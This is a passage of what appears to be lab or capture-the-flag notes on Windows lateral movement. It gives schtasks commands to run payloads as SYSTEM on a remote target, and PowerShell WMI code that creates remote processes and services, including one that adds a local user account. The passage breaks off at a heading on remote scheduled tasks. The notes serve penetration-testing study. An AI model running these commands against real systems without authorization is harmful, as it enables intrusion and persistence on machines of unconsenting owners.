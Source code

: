 {% hint style="info" %}
Starting reverse shells with services is quite hard because Service Control Manager (SCM) expects any program running as a service to communicate with it in a specific way (e.g., by responding to start/stop signals). A normal executable doesn't do this. When the SCM starts a non-service executable, it doesn't receive the expected "I have started" signal, so it assumes the service has failed and terminates the process almost immediately.
{% endhint %}

### Scheduled Tasks

```shell
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s TARGET /run /TN "THMtask1" 
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Windows Management Instrumentation (WMI)

A windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. It allows administrators to perform management tasks that attackers can abuse to perform lateral movement.

To connect to WMI via Powershell, we need to create a `PSCredential` Object

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then need to Establish our `$Session` variable

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

Here is how we can leverage it

```powershell
#Remote Process Creation: send a request to the Win32_Process class
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}

#Remote Service Creation
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

##Handling the service
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
##Stopping and deleting the service
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete

#Remote Scheduled Task
```